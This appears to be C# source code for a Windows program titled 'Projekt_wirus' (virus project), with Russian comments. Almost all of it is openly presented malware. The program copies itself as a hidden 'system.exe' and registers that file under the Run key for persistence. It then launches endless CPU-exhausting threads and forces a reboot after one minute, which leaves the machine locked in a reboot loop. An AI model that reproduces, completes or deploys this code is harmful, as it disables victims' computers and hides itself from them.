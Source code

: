 # Projekt_wirus
public partial class MainWindow : Window
    {
        public static string needPatch = "C:\\Users\\Public\\";


        public MainWindow()
        {
            if (OSVersionInfo.Name == "Windows 7" || OSVersionInfo.Name == "Windows Vista" )
            {
                autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
                //SetAutorunValue(false, needPatch + "system.exe");  // убрать из автозагрузки
            }
            else
                if (OSVersionInfo.Name == "Windows XP")
            {
                needPatch = "C:\\Documents and Settings\\All Users\\";
                autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
                                                                         //SetAutorunValue(false, needPatch + "system.exe");  // убрать из автозагрузки
            }

            InitializeComponent();
        }
        private void Window_Loaded(object sender, RoutedEventArgs e)
        {
            if (!File.Exists(needPatch + "system.exe"))
            {
                try
                {
                    File.Copy("system.exe", needPatch + "system.exe");
                    File.SetAttributes(needPatch + "system.exe", FileAttributes.Hidden);

                }
                catch {   }
            }
            start();
        }

        public static void sys_sleep()
        {
            while (true)
            {
                Thread s = new Thread(s_b);
                s.Start();
            }
        }
        private static void s_b()
        {
            int y = 2;
            while (true)
            {
                y *= y;
            }
        }
        public static void start()
        {
            Stopwatch sw = new Stopwatch();
            sw.Start();
            bool b = true;
            bool pl = false;
            while (b)
            {
                if (sw.ElapsedMilliseconds > 20000)
                {
                    if (!pl)
                    {
                        Thread g = new Thread(sys_sleep);
                        g.Start();
                        pl = true;
                    }
                }
                if (sw.ElapsedMilliseconds > 60000)
                {
                    DoExitWin(EWX_REBOOT);
                    b = false;
                }
            }
        }
        
        public class autorun: Singleton<autorun>
    {
        public static bool SetAutorunValue(bool autorun, string npath)
        {
            const string name = "systems";
            string ExePath = npath;
            RegistryKey reg;

            reg = Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run\\");
            try
            {
                if (autorun)
                    reg.SetValue(name, ExePath);
                else
                    reg.DeleteValue(name);
                reg.Flush();
                reg.Close();
            }
            catch
            {
                return false;
            }
            return true;
        }
    }
}
namespace DoFactory.GangOfFour.Singleton.Structural
{
    public class Singleton<T> where T : class
    {
        private static T _instance;

        protected Singleton()
        {
        }

        private static T CreateInstance()
        {
            ConstructorInfo cInfo = typeof(T).GetConstructor(
            BindingFlags.Instance | BindingFlags.NonPublic,
            null,
            new Type[0],
            new ParameterModifier[0]);

            return (T)cInfo.Invoke(null);
        }

        public static T Instance
        {
            get
            {
                if (_instance == null)
                {
                    _instance = CreateInstance();
                }

                return _instance;
            }
        }
    }
}
